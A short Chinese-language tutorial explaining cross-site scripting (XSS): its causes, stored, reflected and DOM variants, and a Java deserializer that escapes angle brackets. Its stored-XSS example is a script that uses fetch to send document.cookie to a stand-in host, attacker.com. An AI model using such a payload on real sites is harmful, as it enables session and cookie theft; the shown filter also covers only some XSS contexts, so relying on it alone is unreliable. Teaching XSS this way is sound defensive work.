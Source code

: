 ```yaml
---
title: XSS 攻击
createTime: 2025/04/17 10:26:28
permalink: /article/1bartf38/
---
```


# XSS跨站脚本攻击

## 1. What - 什么是XSS？
XSS（Cross-Site Scripting）是一种将恶意脚本注入到可信网站中的攻击方式。攻击者利用网站对用户输入的过滤不足，在页面中执行非法的 JavaScript 代码。

**典型特征：**
- 恶意脚本在受害者浏览器执行
- 窃取Cookie/会话信息
- 篡改页面内容
- 传播蠕虫病毒

## 2. Why - 为什么存在XSS？
- 网站未对用户输入进行充分过滤
- 动态渲染内容时未正确处理特殊字符
- 过度信任客户端数据

## 3. When - 什么场景会发生？
- 用户提交评论/留言时（存储型XSS）
- 点击恶意构造的URL链接（反射型XSS）
- 访问被篡改的第三方资源（DOM型XSS）

## 4. How - 攻击如何实现？
### 存储型XSS案例
```javascript
// 恶意评论内容
<script> 
  fetch('https://attacker.com/steal?cookie='+document.cookie)
</script>
```
### 如何避免 XSS 攻击

在后端开发时可以过滤全局的特殊字符
```java 
@JsonComponent
public class GlobalJsonDeserializer {
    private GlobalJsonDeserializer() {
        throw new UnsupportedOperationException("JsonDeserializer classes cannot be instantiated");
    }
    public static class StringDeserializer extends JsonDeserializer<String> {
        @Override
        public String deserialize(JsonParser jsonParser, DeserializationContext deserializationContext) throws IOException {
            return jsonParser.getValueAsString()
                    .replace("<", "&lt;")
                    .replace(">", "&gt;");
        }
    }
}
```